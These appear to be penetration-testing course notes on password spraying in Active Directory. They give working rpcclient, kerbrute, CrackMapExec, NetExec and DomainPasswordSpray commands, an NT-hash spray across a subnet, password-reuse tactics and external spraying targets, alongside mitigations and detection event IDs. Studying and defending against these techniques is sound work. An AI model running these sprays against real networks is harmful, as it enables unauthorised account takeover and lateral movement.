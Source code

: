 # Internal Password Spraying - from Linux
## Internal Password Spraying from a Linux Host (==no== domain-joined )

```bash
# Using a Bash one-liner for the Attack
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" <DC-IP> | grep Authority; done
  # find : Account Name: tjohnson, Authority Name: INLANEFREIGHT

# Using Kerbrute for the Attack
kerbrute passwordspray -d inlanefreight.local --dc <DC-IP> valid_users.txt  Welcome1

# Using CrackMapExec & Filtering Logon Failures
sudo crackmapexec smb <DC-IP> -u valid_users.txt -p Password123 --continue-on-success | grep +
```

## Local Administrator Password Reuse


- If you obtain **administrative** access and the **NTLM password hash or cleartext password** for the local administrator account (**or another privileged local account**), this can be **attempted across multiple hosts in the network.** 
- If we find a **desktop host** (workstation host) with the **local administrator account** password set to something unique such as `$desktop%@admin123`, it might be worth attempting `$server%@admin123` against servers. 
- if we find **non-standard local administrator accounts** such as `bsmith`, we may find that the **password is reused** for a **similarly named domain user account**
-  If we retrieve the password for a **domain user** `ajones`, it is worth trying the **same password** on their **domain admin account** (if the user has one), it cloud be like `ajones_adm`(**privileged domain user**)
- We may obtain valid credentials for a **user in domain A** that are valid for a user with the same or similar username in **domain B**
- It is worth targeting high-value hosts such as **SQL or Microsoft Exchange servers**, as they are more likely to have a highly privileged **user logged** in or have their **credentials persistent in memory**.




 if we retrieve the NTLM hash for the l**ocal administrator account** from the local SAM database. In these instances, we can **spray the NT hash across an entire subnet** (or multiple subnets) to hunt for **local administrator accounts with the same password set**.
```bash
#### Local Admin Spraying with CrackMapExec
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

>This technique, while effective, is quite noisy and is not a good choice for any assessments that require stealth.
>One way to remediate this issue is using the free Microsoft tool [Local Administrator Password Solution (LAPS)](https://www.microsoft.com/en-us/download/details.aspx?id=46899) to have Active Directory manage local administrator passwords and enforce a unique password on each host that rotates on a set interval.


# Internal Password Spraying - from Windows

From a foothold on a domain-joined Windows host, the [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) tool is highly effective. If we are authenticated to the domain, the tool will automatically generate a user list from Active Directory, query the domain password policy, and exclude user accounts within one attempt of locking out. Like how we ran the spraying attack from our Linux host, we can also supply a user list to the tool if we are on a Windows host but not authenticated to the domain.
## Internal -  domain-joined
Since the host is domain-joined, we will skip the `-UserList` flag and let the tool generate a list for us.
```bash
# Using DomainPasswordSpray.ps1
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue

# using Kerbrute.exe
.\kerbrute_Windows.exe passwordspray -d <DOMAIN_NAME> .\userlist.txt Welcome1 --dc <DC_IP> --output spray_success.txt

# using NetExec
nxc smb <DC-IP> -u valid_users.txt -p Password123 --continue-on-success
```

## External Password Spraying
==While outside the scope of this module== . **external Password Spraying** means doing the same spraying technique you learned, but **from the internet** instead of inside the internal network.

- The goal is to guess one valid username/password combo to get into something exposed online.
- Once you log in, you may get email access, remote desktop, VPN access, or an internal web app — which can give you a foothold in the organization.

**Typical external targets (all often use Active Directory accounts):**

- **Microsoft 365** accounts
- **Outlook Web Access / Exchange Web Access** (email login pages)
- **Skype for Business / Lync Server** (corporate chat)
- **Remote Desktop Services (RDS) portals**
- **Citrix portals** (virtual desktops)
- **VMware Horizon VDI** (virtual desktop infrastructure)
- **VPN portals** (Citrix, SonicWall, OpenVPN, Fortinet, etc.)
- **Custom websites** that use AD login

Basically, anything **publicly accessible** that uses the same **domain usernames and passwords** can be a target for spraying from outside.

# Mitigations

- **Multi-factor Authentication** – Use MFA (push, OTP, RSA, SMS) on all external portals; prevents login but may still leak valid creds.
- **Restricting Access** – Limit app access to only necessary domain users (least privilege).
- **Reduce Impact** – Use separate admin accounts, app-specific permissions, and network segmentation to slow/stop lateral movement.
- **Password Hygiene** – Educate users on strong passphrases; enforce password filters to block common/dictionary/company-related words.

>It is vital to ensure that your domain password lockout policy doesn’t increase the risk of denial of service attacks. If it is very restrictive and requires an administrative intervention to unlock accounts manually, a careless password spray may lock out many accounts within a short period.

## Detection
- Look for:
    - Many account lockouts in a short period.
    - App/server logs showing multiple login attempts (valid & invalid users).
    - High volume of requests to the same app/URL.
- **Event ID 4625** → Failed SMB logons in short time (password spraying).
- Correlate many failed logons within a set time window.
- Savvy attackers may avoid SMB and use **LDAP** instead.
- **Event ID 4771** → Kerberos pre‑auth failed (can indicate LDAP/Kerberos spraying) — requires Kerberos logging enabled.
- Fine‑tuned logging + correlation rules = stronger detection of internal & external spraying.

